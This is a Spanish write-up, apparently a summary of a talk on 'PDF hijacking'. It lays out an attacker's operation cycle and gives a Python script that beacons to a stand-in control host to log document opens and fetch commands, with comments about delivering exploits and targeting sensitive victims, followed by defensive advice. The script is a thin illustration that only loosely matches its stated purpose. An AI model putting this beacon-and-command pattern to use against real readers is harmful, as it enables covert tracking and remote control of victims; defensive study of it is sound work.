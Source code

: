 # Hijacking via PDF

## Contexto del escenario
La investigación evalúa cómo un atacante puede transformar un documento aparentemente inocuo en una herramienta de **secuestro vía PDF**, explotando la confianza del lector y la flexibilidad de los visores modernos. Este material resume la narrativa presentada en ENISE, abordando tanto la perspectiva ofensiva como las estrategias defensivas. El concepto Secuestro via PDF describe la manipulación maliciosa de documentos para controlar el entorno del lector.

## Ciclo de operación
1. Reconocimiento digital de víctimas y canales de distribución corporativos.
2. Preparación del cargador PDF con enlaces remotos y automatizaciones controladas.
3. Ejecución del envío a través de campañas dirigidas con seguimiento de apertura.
4. Persistencia mediante repetición de la carga cuando el usuario vuelve a abrir el archivo.

## Script de telemetría y control
```python
import requests

URL_ESTADISTICAS = "https://telemetria.enise.example/api/abierto"
URL_CONTROL = "https://telemetria.enise.example/api/accion"

# Fase 1: Validar la conectividad del objetivo antes de entregar el exploit
respuesta_get = requests.get(URL_ESTADISTICAS, timeout=5)
respuesta_get.raise_for_status()

# Fase 2: Registrar la apertura del PDF con metadatos enriquecidos
metadatos = {"documento": "Secuestro via PDF", "fase": "apertura"}
requests.post(URL_ESTADISTICAS, json=metadatos, timeout=5)

# Fase 3: Sincronizar comandos de seguimiento y priorizar objetivos sensibles
instrucciones = {"documento": "Secuestro via PDF", "accion": "sincronizar"}
respuesta_post = requests.post(URL_CONTROL, json=instrucciones, timeout=5)
respuesta_post.raise_for_status()

# Fase 4: Ajustar la carga útil según la respuesta del equipo azul
if respuesta_post.json().get("proximo_paso") == "reforzar":
    print("Actualizar macros incrustadas y volver a distribuir.")
```

## Defensa y contención
- Implementar inspección profunda que identifique documentos con telemetría remota.
- Forzar aperturas en entornos aislados con bloqueo de tráfico saliente desconocido.
- Configurar detección basada en comportamiento que alerte sobre patrones de exfiltración.

## Conclusiones clave
El secuestro vía PDF se sostiene tanto por la ingeniería social como por el abuso de funcionalidades legítimas del formato. Combinar visibilidad de red, endurecimiento de visores y capacitación enfocada reduce de forma significativa la superficie de ataque.
